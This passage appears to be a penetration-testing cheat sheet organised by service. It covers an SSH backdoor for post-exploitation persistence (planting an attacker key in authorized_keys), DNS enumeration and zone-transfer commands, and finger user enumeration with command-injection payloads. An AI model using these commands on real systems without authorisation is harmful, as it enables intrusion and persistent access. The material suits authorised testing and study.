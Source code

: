### SSH backdoor - post exploitation

```
# Attacker
ssh-keygen -f <FILENAME>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

# Victim
echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys

# Connect
ssh -i <FILENAME> <USER>@<IP>
```

------

## DNS - 53

```
dnsenum <DOMAIN>
```

```
dnsrecon -d <DOMAIN>
```

### Zone transfert

```
dnsrecon -d <DOMAIN> -a
dig axfr <DOMAIN> @ns1.test.com
```

### DNS brute force

```
https://github.com/blark/aiodnsbrute
```

------

## FINGER - 79

### User enumeration

```
finger @<IP>
finger <USER>@<IP>
```

### Command execution

```
finger "|/bin/id@<IP>"
finger "|/bin/ls -a /<IP>"
```
